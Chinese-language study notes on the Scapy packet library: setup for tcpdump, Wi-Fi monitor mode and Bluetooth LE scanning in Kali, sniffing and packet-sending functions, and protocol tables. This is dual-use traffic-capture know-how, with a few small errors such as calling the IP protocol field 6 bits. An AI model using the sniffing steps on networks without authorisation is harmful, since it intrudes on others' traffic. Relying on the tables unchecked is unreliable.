







tcpdump: sudo apt-get install tcpdump
Scapy: pip3 install --pre scapy
pip3 install matplotlib vpython pyx cryptography sphinx sphinx_rtd_theme pylint
nmap
pyx:
sudo apt-get install texlivewireshark
sudo scapy
sudo iw dev wlan0 interface add mon0 type monitor
sudo ifconfig mon0 up
sudo ip link set mon0 up
kali虚拟机启动蓝牙
本机关闭蓝牙


apt-get install bluetooth
service bluetooth restart
service bluetooth status
xbluetooth.service - Bluetooth serviceLoaded: loaded (/lib/systemd/system/bluetooth.service; enabled; vendor pre>Active: active (running) since Wed 2020-01-01 06:22:50 EST; 3min 10s agoDocs: man:bluetoothd(8)Main PID: 595 (bluetoothd)Status: "Running"Tasks: 1 (limit: 4615)Memory: 4.0MCGroup: /system.slice/bluetooth.service└─595 /usr/lib/bluetooth/bluetoothd
systemctl enable /lib/systemd/system/bluetooth.service
systemctl start bluetooth.service
验证蓝牙设备
hcitool dev
如果虚拟机获取不到蓝牙
则在Device Manager中把蓝牙先禁用再启用
然后选择你要连接到的虚拟机
连接后可以等俩分钟再验证
测试LE Scan
hcitool lescanconf.color_theme = ColorOnBlackTheme()
修改文件/usr/local/lib/python3.7/dist-packages/scapy/main.py
xxxxxxxxxxfrom scapy.themes import ColorOnBlackThemeconf.color_theme = ColorOnBlackTheme()https://scapy.readthedocs.io/en/latest/api/scapy.packet.html https://scapy.readthedocs.io/en/latest/api/scapy.utils.html
explore: 显示层中的包类型
xxxxxxxxxx>>> explore(scapy.layers.l2)Packets contained in scapy.layers.l2:Class |Name-----------|-----------------------ARP |ARPCookedLinux|cooked linuxDot1AD |802_1ADDot1Q |802.1QDot3 |802.3ERSPAN |ERSPANEther |EthernetGRE |GREGRE_PPTP |GRE PPTPGRErouting |GRE routing informationLLC |LLCLoopback |LoopbackSNAP |SNAPSTP |Spanning Tree Protocol
ls: 显示协议参数其及默认值
xxxxxxxxxx>>> ls(IP)version : BitField (4 bits) = (4)ihl : BitField (4 bits) = (None)tos : XByteField = (0)len : ShortField = (None)id : ShortField = (1)flags : FlagsField (3 bits) = (<Flag 0 ()>)frag : BitField (13 bits) = (0)ttl : ByteField = (64)proto : ByteEnumField = (0)chksum : XShortField = (None)src : SourceIPField = (None)dst : DestIPField = (None)options : PacketListField = ([])
/: 层叠加
Ether()/IP()/UDP()rdpcap(filename, count=-1): 读取pcap文件, count: 读取几个包, 默认全部
hexdump()
import_hexcap()
export_object(): export a base64 encoded Python data structure representing a packet
import_object()
.summary(): 显示概要
.nsummary(): 显示概要(带数据包号)
fuzz(p): 返回除用户指定的数据外,其他参数均为随机的p
del(): 就数据恢复默认值
del(a.ttl)conf.route: 查看路由表
例:
xxxxxxxxxx>>> conf.routeNetwork Netmask Gateway Iface127.0.0.0 255.0.0.0 0.0.0.0 lo 192.168.8.0 255.255.255.0 0.0.0.0 eth0 0.0.0.0 0.0.0.0 192.168.8.1 eth0 >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1") >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254") >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1") >>> conf.route Network Netmask Gateway Iface 127.0.0.0 255.0.0.0 0.0.0.0 lo 192.168.8.0 255.255.255.0 0.0.0.0 eth0 0.0.0.0 0.0.0.0 192.168.8.254 eth0 192.168.1.1 255.255.255.255 192.168.8.1 eth0 >>> conf.route.resync() >>> conf.route Network Netmask Gateway Iface 127.0.0.0 255.0.0.0 0.0.0.0 lo 192.168.8.0 255.255.255.0 0.0.0.0 eth0 0.0.0.0 0.0.0.0 192.168.8.1 eth0traceroute()
sniff()
嗅探数据包并返回数据包列表.
count: 要捕获的包的数量. 0意味着无穷.
store: 是否存储嗅探包或丢弃它们
prn: 应用于每个包的函数, 如果返回某个内容, 则显示它
session: defragment packets, before executing the prn.
filter: BPF过滤器
lfilter: 将Python函数应用于每个包, 以确定是否可以执行进一步的操作
offline: 从PCAP文件(或PCAP文件列表)读取数据包, 而不是嗅探它们
timeout: 给定时间后停止嗅探(默认:None)
L2socket: 使用提供的L2socket(默认:使用conf.L2listen).
opened_socket: 为.recv()提供一个对象(或对象列表).
stop_filter: Python函数应用于每个包, 以确定我们是否必须在这个包之后停止捕获
iface: 接口或接口列表(默认:None, 嗅探所有接口).
monitor: 使用监控模式. 可能无法在所有操作系统上使用
started_callback: 嗅探器开始嗅探时立即调用(默认:None)
例:
sniff(prn=lambda x:x.summary(), lfilter=lambda x:x.haslayer(TCP), stop_filter=lambda x:x.haslayer(Padding))AsyncSniffer()
例:
xxxxxxxxxxt = AsyncSniffer(iface="enp0s3", count=200)t.start()t.join()results = t.resultsprint(len(results))
t = AsyncSniffer(prn=lambda x: x.summary(), store=False, filter="tcp")t.start()time.sleep(20)t.stop()RandString(size=None, chars=b'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789')
Packet方法
https://scapy.readthedocs.io/en/latest/api/scapy.packet.html#scapy.packet.Packet
firstlayer()
get_field(fld)
getfield_and_val(attr)
getfieldval(attr)
getlayer(cls, nb=1, _track=None, _subclass=None, **flt)
haslayer(cls)
hide_defaults()
init_fields()
lastlayer(layer=None)
layers()
show(dump=False, indent=3, lvl=' | label_lvl='')
show2(dump=False, indent=3, lvl=' | label_lvl='')
sniffed_on
sprintf(format[, relax=1])
例:
xxxxxxxxxxp.sprintf("%.time% %-15s,IP.src% -> %-15s,IP.dst% %IP.chksum% ""%03xr,IP.proto% %r,TCP.flags%")p.sprintf("This is a{TCP: TCP}{UDP: UDP}{ICMP:n ICMP} packet")p.sprintf("{IP:%IP.dst% {ICMP:%ICMP.type%}{TCP:%TCP.dport%}}")
summary(intern=0)
a,b: 表示a, b
(a,b): 表示 [a, b]
SA: 表示SYN, ACK
Rate+HE: 表示Rate, HE
scapy -s mysessionpath
wrpcap("temp.cap",pkts)
save_session('session.scapy')
pkts = rdpcap("temp.cap")
pkts = sniff(offline="temp.cap")
.make_table()
例:
xxxxxxxxxx# 头列值, 头行值, 显示值ans.make_table(lambda x:(x[IP].src, x[IP].ttl, x[IP].dst)) p.make_table(lambda x:(x[IP].dst, x[TCP].dport, x[TCP].sprintf(“%flags%”)).graph()
例:
xxxxxxxxxxres.graph(target="> /share/graph.svg")scapy.layers.l2.Etherdst
src
type
| 以太类型编号 | 代表协议 |
|---|---|
| 0x0800 | Internet Protocol version 4 |
| 0x0806 | Address Resolution Protocol |
| 0x0842 | Wake-on-LAN |
| 0x22F0 | Audio Video Transport Protocol as defined in IEEE Std 1722-2011 |
| 0x22F3 | IETF TRILL Protocol |
| 0x6003 | DECnet |
| 0x8035 | Reverse Address Resolution Protocol |
| 0x809B | AppleTalk |
| 0x80F3 | AppleTalk |
| 0x8100 | IEEE 802.1Q |
| 0x8137 | IPX |
| 0x8138 | IPX |
| 0x8204 | QNX Qnet |
| 0x86DD | Internet Protocol Version 6 |
| 0x8808 | Ethernet flow control |
| 0x8809 | IEEE 802.3 |
| 0x8819 | CobraNet |
| 0x8847 | MPLS |
| 0x8848 | MPLS |
| 0x8863 | PPPoE |
| 0x8864 | PPPoE |
| 0x8870 | Jumbo Frames |
| 0x887B | HomePlug 1.0 MME |
| 0x888E | IEEE 802.1X |
| 0x8892 | PROFINET |
| 0x889A | HyperSCSI |
| 0x88A2 | ATA over Ethernet |
| 0x88A4 | EtherCAT |
| 0x88A8 | IEEE Std 802.1Q - Service VLAN tag identifier (S-Tag) |
| 0x88AB | Ethernet Powerlink |
| 0x88CC | 链路层发现协议 |
| 0x88CD | SERCOS III |
| 0x88E1 | HomePlug AV MME |
| 0x88E3 | Media Redundancy Protocol (IEC62439-2) |
| 0x88E5 | IEEE 802.1AE |
| 0x88E7 | IEEE 802.1ah |
| 0x88F7 | Precision Time Protocol |
| 0x8902 | IEEE 802.1ag |
| 0x8906 | Fibre Channel over Ethernet |
| 0x8914 | FCoE |
| 0x8915 | RDMA over Converged Ethernet |
| 0x892F | High-availability Seamless Redundancy |
| 0x9000 | Ethernet Configuration Testing Protocol |
| 0x9100 | double tagging |
scapy.layers.l2.ARP通过解析网络层地址来找寻数据链路层地址的网络传输协议
硬件字段
hwtype
hwlen
hwsrc
hwdst
协议字段
ptype
plen
psrc
pdst
op
scapy.layers.l2.Dot1QIEEE 802.1Q, IEEE 802.1q定义一个关于VLAN连接介质访问控制层和IEEE 802.1D生成树协议的具体概念模型. 这个模型允许各个独立的VLAN与以太网交换机的数据链路层或路由器互相连接.
prio
vlan
type
id
scapy.layers.inet.IPInternet Protocol
version:
ihl:
Specifies the length of the IP packet header in 32 bit words. The minimum value for a valid header is 5.
tos:
Type of Service (8 bits)
Differentiated Service Field(DSCP) (6 bits)
Explicit Congestion Notification(ECN) (2 bits)
len
id
flags
frag
The fragment offset field is measured in units of eight-byte blocks. It is 13 bits long and specifies the offset of a particular fragment relative to the beginning of the original unfragmented IP datagram. The first fragment has an offset of zero. This allows a maximum offset of (213 – 1) × 8 = 65,528 bytes, which would exceed the maximum IP packet length of 65,535 bytes with the header length included (65,528 + 20 = 65,548 bytes).
ttl:
IP数据包在计算机网络中可以转发的最大跳数
proto
Protocol (6 bits)
常用 Protocol Number | Protocol Name| Abbreviation | --------------- | ------------------------------------------------------------------------------------------------------------------------------------------ | ------------ | | 1 | Internet Control Message Protocol | ICMP | | 2 | Internet Group Management Protocol | IGMP | | 6 | Transmission Control Protocol | TCP | | 17 | User Datagram Protocol | UDP | | 41 | IPv6 encapsulation | ENCAP | | 89 | Open Shortest Path First | OSPF | | 132 | Stream Control Transmission Protocol | SCTP |
全部
| 十进制 | 十六进制 | 关键字 | 协议 | 引用 |
|---|---|---|---|---|
| 0 | 0x00 | HOPOPT | IPv6逐跳选项 | RFC 2460 |
| 1 | 0x01 | ICMP | 互联网控制消息协议 (ICMP) | RFC 792 |
| 2 | 0x02 | IGMP | 因特网组管理协议 (IGMP) | RFC 1112 |
| 3 | 0x03 | GGP | 网关对网关协议 | RFC 823 |
| 4 | 0x04 | IPv4 | IPv4 (封装) | RFC 791 |
| 5 | 0x05 | ST | 因特网流协议 | RFC 1190, RFC 1819 |
| 6 | 0x06 | TCP | 传输控制协议 (TCP) | RFC 793 |
| 7 | 0x07 | CBT | 有核树组播路由协议 | RFC 2189 |
| 8 | 0x08 | EGP | 外部网关协议 | RFC 888 |
| 9 | 0x09 | IGP | 内部网关协议 (任意私有内部网关 (用于思科的IGRP) ) | |
| 10 | 0x0A | BBN-RCC-MON | BBN RCC 监视 | |
| 11 | 0x0B | NVP-II | 网络语音协议 | RFC 741 |
| 12 | 0x0C | PUP | Xerox PUP | |
| 13 | 0x0D | ARGUS | ARGUS | |
| 14 | 0x0E | EMCON | EMCON | |
| 15 | 0x0F | XNET | Cross Net Debugger | IEN 158 |
| 16 | 0x10 | CHAOS | Chaos | |
| 17 | 0x11 | UDP | 用户数据报协议 (UDP) | RFC 768 |
| 18 | 0x12 | MUX | Multiplexing | IEN 90 |
| 19 | 0x13 | DCN-MEAS | DCN Measurement Subsystems | |
| 20 | 0x14 | HMP | Host Monitoring Protocol | RFC 869 |
| 21 | 0x15 | PRM | Packet Radio Measurement | |
| 22 | 0x16 | XNS-IDP | XEROX NS IDP | |
| 23 | 0x17 | TRUNK-1 | Trunk-1 | |
| 24 | 0x18 | TRUNK-2 | Trunk-2 | |
| 25 | 0x19 | LEAF-1 | Leaf-1 | |
| 26 | 0x1A | LEAF-2 | Leaf-2 | |
| 27 | 0x1B | RDP | Reliable Datagram Protocol | RFC 908 |
| 28 | 0x1C | IRTP | Internet Reliable Transaction Protocol | RFC 938 |
| 29 | 0x1D | ISO-TP4 | ISO Transport Protocol Class 4 | RFC 905 |
| 30 | 0x1E | NETBLT | Bulk Data Transfer Protocol | RFC 998 |
| 31 | 0x1F | MFE-NSP | MFE Network Services Protocol | |
| 32 | 0x20 | MERIT-INP | MERIT Internodal Protocol | |
| 33 | 0x21 | DCCP | Datagram Congestion Control Protocol | RFC 4340 |
| 34 | 0x22 | 3PC | Third Party Connect Protocol | |
| 35 | 0x23 | IDPR | Inter-Domain Policy Routing Protocol | RFC 1479 |
| 36 | 0x24 | XTP | Xpress Transport Protocol | |
| 37 | 0x25 | DDP | Datagram Delivery Protocol | |
| 38 | 0x26 | IDPR-CMTP | IDPR Control Message Transport Protocol | |
| 39 | 0x27 | TP++ | TP++ Transport Protocol | |
| 40 | 0x28 | IL | IL Transport Protocol | |
| 41 | 0x29 | IPv6 | IPv6 封装 | RFC 2473 |
| 42 | 0x2A | SDRP | Source Demand Routing Protocol | RFC 1940 |
| 43 | 0x2B | IPv6-Route | IPv6路由拓展头 | RFC 2460 |
| 44 | 0x2C | IPv6-Frag | IPv6分片扩展头 | RFC 2460 |
| 45 | 0x2D | IDRP | Inter-Domain Routing Protocol | |
| 46 | 0x2E | RSVP | Resource Reservation Protocol | RFC 2205 |
| 47 | 0x2F | GRE | 通用路由封装 (GRE) | RFC 2784, RFC 2890 |
| 48 | 0x30 | MHRP | Mobile Host Routing Protocol | |
| 49 | 0x31 | BNA | BNA | |
| 50 | 0x32 | ESP | 封装安全协议 (ESP) | RFC 4303 |
| 51 | 0x33 | AH | 认证头协议 (AH) | RFC 4302 |
| 52 | 0x34 | I-NLSP | Integrated Net Layer Security Protocol | TUBA |
| 53 | 0x35 | SWIPE | SwIPe | IP with Encryption |
| 54 | 0x36 | NARP | NBMA Address Resolution Protocol | RFC 1735 |
| 55 | 0x37 | MOBILE | IP Mobility (Min Encap) | RFC 2004 |
| 56 | 0x38 | TLSP | Transport Layer Security Protocol (using Kryptonet key management) | |
| 57 | 0x39 | SKIP | Simple Key-Management for Internet Protocol | RFC 2356 |
| 58 | 0x3A | IPv6-ICMP | 互联网控制消息协议第六版 (ICMPv6) | RFC 4443, RFC 4884 |
| 59 | 0x3B | IPv6-NoNxt | IPv6无负载头 | RFC 2460 |
| 60 | 0x3C | IPv6-Opts | IPv6目标选项扩展头 | RFC 2460 |
| 61 | 0x3D | Any host internal protocol | ||
| 62 | 0x3E | CFTP | CFTP | |
| 63 | 0x3F | Any local network | ||
| 64 | 0x40 | SAT-EXPAK | SATNET and Backroom EXPAK | |
| 65 | 0x41 | KRYPTOLAN | Kryptolan | |
| 66 | 0x42 | RVD | MIT Remote Virtual Disk Protocol | |
| 67 | 0x43 | IPPC | Internet Pluribus Packet Core | |
| 68 | 0x44 | Any distributed file system | ||
| 69 | 0x45 | SAT-MON | SATNET Monitoring | |
| 70 | 0x46 | VISA | VISA协议 | |
| 71 | 0x47 | IPCV | Internet Packet Core Utility | |
| 72 | 0x48 | CPNX | Computer Protocol Network Executive | |
| 73 | 0x49 | CPHB | Computer Protocol Heart Beat | |
| 74 | 0x4A | WSN | Wang Span Network | |
| 75 | 0x4B | PVP | Packet Video Protocol | |
| 76 | 0x4C | BR-SAT-MON | Backroom SATNET Monitoring | |
| 77 | 0x4D | SUN-ND | SUN ND PROTOCOL-Temporary | |
| 78 | 0x4E | WB-MON | WIDEBAND Monitoring | |
| 79 | 0x4F | WB-EXPAK | WIDEBAND EXPAK | |
| 80 | 0x50 | ISO-IP | 国际标准化组织互联网协议 | |
| 81 | 0x51 | VMTP | Versatile Message Transaction Protocol | RFC 1045 |
| 82 | 0x52 | SECURE-VMTP | Secure Versatile Message Transaction Protocol | RFC 1045 |
| 83 | 0x53 | VINES | VINES | |
| 84 | 0x54 | TTP | TTP | |
| 84 | 0x54 | IPTM | Internet Protocol Traffic Manager | |
| 85 | 0x55 | NSFNET-IGP | NSFNET-IGP | |
| 86 | 0x56 | DGP | Dissimilar Gateway Protocol | |
| 87 | 0x57 | TCF | TCF | |
| 88 | 0x58 | EIGRP | 增强型内部网关路由协议 (EIGRP) | |
| 89 | 0x59 | OSPF | 开放式最短路径优先 (OSPF) | RFC 1583 |
| 90 | 0x5A | Sprite-RPC | Sprite RPC Protocol | |
| 91 | 0x5B | LARP | Locus Address Resolution Protocol | |
| 92 | 0x5C | MTP | Multicast Transport Protocol | |
| 93 | 0x5D | AX.25 | AX.25 | |
| 94 | 0x5E | IPIP | IP-within-IP 封装协议 | RFC 2003 |
| 95 | 0x5F | MICP | Mobile Internetworking Control Protocol | |
| 96 | 0x60 | SCC-SP | Semaphore Communications Sec. Pro | |
| 97 | 0x61 | ETHERIP | Ethernet-within-IP 封装协议 | RFC 3378 |
| 98 | 0x62 | ENCAP | Encapsulation Header | RFC 1241 |
| 99 | 0x63 | Any private encryption scheme | ||
| 100 | 0x64 | GMTP | GMTP | |
| 101 | 0x65 | IFMP | Ipsilon Flow Management Protocol | |
| 102 | 0x66 | PNNI | PNNI over IP | |
| 103 | 0x67 | PIM | Protocol Independent Multicast | |
| 104 | 0x68 | ARIS | IBM's ARIS (Aggregate Route IP Switching) Protocol | |
| 105 | 0x69 | SCPS | SCPS (Space Communications Protocol Standards) | SCPS-TP[1] |
| 106 | 0x6A | QNX | QNX | |
| 107 | 0x6B | A/N | Active Networks | |
| 108 | 0x6C | IPComp | IP Payload Compression Protocol | RFC 3173 |
| 109 | 0x6D | SNP | Sitara Networks Protocol | |
| 110 | 0x6E | Compaq-Peer | Compaq Peer Protocol | |
| 111 | 0x6F | IPX-in-IP | IPX in IP | |
| 112 | 0x70 | VRRP | Virtual Router Redundancy Protocol, Common Address Redundancy Protocol (没在IANA注册) | VRRP:RFC 3768 |
| 113 | 0x71 | PGM | PGM Reliable Transport Protocol | RFC 3208 |
| 114 | 0x72 | Any 0-hop protocol | ||
| 115 | 0x73 | L2TP | Layer Two Tunneling Protocol Version 3 | RFC 3931 |
| 116 | 0x74 | DDX | D-II Data Exchange (DDX) | |
| 117 | 0x75 | IATP | Interactive Agent Transfer Protocol | |
| 118 | 0x76 | STP | Schedule Transfer Protocol | |
| 119 | 0x77 | SRP | SpectraLink Radio Protocol | |
| 120 | 0x78 | UTI | Universal Transport Interface Protocol | |
| 121 | 0x79 | SMP | Simple Message Protocol | |
| 122 | 0x7A | SM | Simple Multicast Protocol | draft-perlman-simple-multicast-03 |
| 123 | 0x7B | PTP | Performance Transparency Protocol | |
| 124 | 0x7C | IS-IS over IPv4 | Intermediate System to Intermediate System (IS-IS) Protocol over IPv4 | RFC 1142 and RFC 1195 |
| 125 | 0x7D | FIRE | Flexible Intra-AS Routing Environment | |
| 126 | 0x7E | CRTP | Combat Radio Transport Protocol | |
| 127 | 0x7F | CRUDP | Combat Radio User Datagram | |
| 128 | 0x80 | SSCOPMCE | Service-Specific Connection-Oriented Protocol in a Multilink and Connectionless Environment | ITU-T Q.2111 (1999) |
| 129 | 0x81 | IPLT | ||
| 130 | 0x82 | SPS | Secure Packet Shield | |
| 131 | 0x83 | PIPE | Private IP Encapsulation within IP | Expired I-D draft-petri-mobileip-pipe-00.txt |
| 132 | 0x84 | SCTP | Stream Control Transmission Protocol | |
| 133 | 0x85 | FC | Fibre Channel | |
| 134 | 0x86 | RSVP-E2E-IGNORE | Reservation Protocol (RSVP) End-to-End Ignore | RFC 3175 |
| 135 | 0x87 | Mobility Header | IPv6移动IP扩展头 | RFC 6275 |
| 136 | 0x88 | UDPLite | Lightweight User Datagram Protocol | RFC 3828 |
| 137 | 0x89 | MPLS-in-IP | Multiprotocol Label Switching Encapsulated in IP | RFC 4023 |
| 138 | 0x8A | manet | MANET Protocols | RFC 5498 |
| 139 | 0x8B | HIP | Host Identity Protocol | RFC 5201 |
| 140 | 0x8C | Shim6 | Site Multihoming by IPv6 Intermediation | RFC 5533 |
| 141 | 0x8D | WESP | Wrapped Encapsulating Security Payload | RFC 5840 |
| 142 | 0x8E | ROHC | Robust Header Compression | RFC 5856 |
| 143-252 | 0x8F-0xFC | |||
| 253-254 | 0xFD-0xFE | RFC 3692 | ||
| 255 | 0xFF | |||
chksum
used for error-checking of the header
src
dst
options
sendp(): 发送数据
srp(): 发送数据, 并接收
lambda sent, received: (func(sent), func2(received))如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. srp1(): 发送数据, 并接收, 只返回一条数据包
lambda sent, received: (func(sent), func2(received))如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. scapy.layers.inet.TCPTransmission Control Protocol
sport
dport
seq
ack
dataofs
reserved
flags
Flags (9 bits)
F: FIN, S: SYN, R: RST, P: PSH, A: ACK, U: URG, E: ECE, C: CWR
NS(1 bit):ECN-nonce -隐藏保护
CWR(1 bit):拥塞窗口减少(CWR)标志由发送主机设置, 表示它收到了设置了ECE标志的TCP段并在拥塞控制机制中作出了响应.
ECE(1 bit):ECN-Echo有双重作用, 取决于SYN标志的值. 这表明:
URG(1 bit): 表示紧急指针字段是有意义的
ACK(1 bit): 表示确认字段是有效的. 客户端发送的初始SYN包之后的所有包都应该设置此标志.
PSH(1 bit): Push函数. 请求将缓冲数据推送到接收应用程序.
RST(1 bit): 重置连接
SYN(1 bit): 同步序列号. 只有从每一端发送的第一个数据包才应该设置这个标志. 其他一些标志和字段会根据这个标志改变含义, 有些只有在设置时才有效, 有些在明确时才有效.
FIN(1 bit): 最后一个来自发送方的数据包
window
chksum
urgptr
scapy.layers.inet.UDPUser Datagram Protocol
sport
dport
len
chksum
scapy.layers.inet.ICMPInternet Control Message Protocol
type, code
ICMP type(8 bits)
ICMP subtype(8 bits)
Source quench
如果路由器或主机没有足够的缓冲区空间来处理请求, 则可能生成此消息;如果路由器或主机缓冲区接近其极限, 则可能生成此消息.
Redirect
重定向请求数据包, 告知主机最佳路线是通过另一个路由器
type: 5
code
| Code | Description |
|---|---|
| 0 | 网络的重定向数据报 |
| 1 | 主机的数据报重定向 |
| 2 | 服务类型和网络的重定向数据报 |
| 3 | 服务类型和主机的重定向数据报 |
Time exceeded
通知丢弃的数据报的源, 因为ttl到零了. 如果主机未能在限定的时间内重新组装碎片数据报, 则也可以发送超时消息.
type: 11
code
| Code | Description |
|---|---|
| 0 | ttl传输超时 |
| 1 | 超过碎片重新组装时间 |
Timestamp
用于时间同步
type: 13
code: 0
客户端可以使用id和seq来匹配时间戳应答和时间戳请求
ts_ori, ts_rx, ts_tx
Originate timestamp(32 bits)
Receive timestamp(32 bits)
Transmit timestamp(32 bits)
id
seq
Timestamp reply
对时间戳(Timestamp)消息的回复
type: 14
code: 0
ts_ori, ts_rx, ts_tx
Originate timestamp(32 bits)
Receive timestamp(32 bits)
Transmit timestamp(32 bits)
id
seq
Address mask request
地址掩码请求通常由主机发送到路由器, 以获得适当的子网掩码. 收件人应使用地址掩码回复邮件来回复此邮件.
type: 17
code: 0
addr_mask: 可以设置为0
id
seq
ICMP地址掩码请求可以作为侦察攻击的一部分来收集目标网络上的信息, 因此ICMP地址掩码应答在Cisco IOS上是默认禁用的
Address mask reply
地址掩码应答使用 适当的子网掩码 应答 地址掩码请求消息
type: 18
code: 0
addr_mask:
id
seq
Destination unreachable
通知客户端由于某种原因目的地不可到达
type: 3
code
| Code | Description |
|---|---|
| 0 | 目标网络不可达 |
| 1 | 目标主机不可达 |
| 2 | 目标协议不可达 |
| 3 | 目标端口不可达 |
| 4 | 要求分段并设置DF flag标志 |
| 5 | 源路由失败 |
| 6 | 未知的目标网络 |
| 7 | 未知的目标主机 |
| 8 | 源主机隔离(作废不用) |
| 9 | 禁止访问的网络 |
| 10 | 禁止访问的主机 |
| 11 | 对特定的TOS 网络不可达 |
| 12 | 对特定的TOS 主机不可达 |
| 13 | 由于过滤 网络流量被禁止 |
| 14 | 主机越权 |
| 15 | 优先权终止生效 |
nexthopmtu
chksum
gw
ptr
reserved
length
unused
unused
send(): 发送数据
sr(): 发送数据, 并接收
lambda sent, received: (func(sent), func2(received))如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. sr1(): 发送数据, 并接收, 只返回一条数据包
lambda sent, received: (func(sent), func2(received))如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. srloop(): 循环发送一个数据包, 并打印响应
